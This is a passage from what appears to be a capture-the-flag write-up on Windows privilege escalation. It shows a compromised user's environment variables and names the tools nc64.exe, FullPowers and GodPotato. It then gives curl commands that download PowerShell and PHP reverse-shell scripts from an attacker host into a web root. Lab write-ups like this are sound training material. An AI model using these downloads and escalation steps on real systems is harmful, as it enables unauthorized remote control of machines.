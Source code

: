 ```
ProgramFiles                   C:\Program Files (x86)                                                                  
ProgramFiles(x86)              C:\Program Files (x86)                                                                  
ProgramW6432                   C:\Program Files                                                                        
PROMPT                         $P$G                                                                                    
PSExecutionPolicyPreference    Bypass                                                                                  
PSModulePath                   C:\Users\enox\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\...
PUBLIC                         C:\Users\Public                                                                         
SystemDrive                    C:                                                                                      
SystemRoot                     C:\Windows                                                                              
TEMP                           C:\Users\enox\AppData\Local\Temp                                                        
TMP                            C:\Users\enox\AppData\Local\Temp                                                        
USERDOMAIN                     VISUAL                                                                                  
USERNAME                       enox                                                                                    
USERPROFILE                    C:\Users\enox                                                                           
windir                         C:\Windows
```

- Nothing useful :v
- Luckily, we have some tools to automate our process:
  - <a href="https://github.com/int0x33/nc.exe/">nc64.exe</a>
  - <a href="https://github.com/itm4n/FullPowers">FullPowers</a>
  - <a href="https://github.com/BeichenDream/GodPotato">GodPotato</a>

- The idea:
  - Gain `nt authority\local service` privilege
  - Expand our privilege using `FullPowers`
  - Escalate to root using `GodPotato`

## 3.1 Gain `nt authority\local service` privilege

- From the reverse shell we obtained earlier, run the following commands to download necessary tools:
```
curl http://10.10.14.30:12345/reverseshell-14243.ps1  -o reverseshell-14243.ps1
curl http://10.10.14.30:12345/windows-php-reverseshell.php  -o windows-php-reverseshell.php
```

- `C:\xampp\htdocs\sea\reverseshell-14243.ps1`:
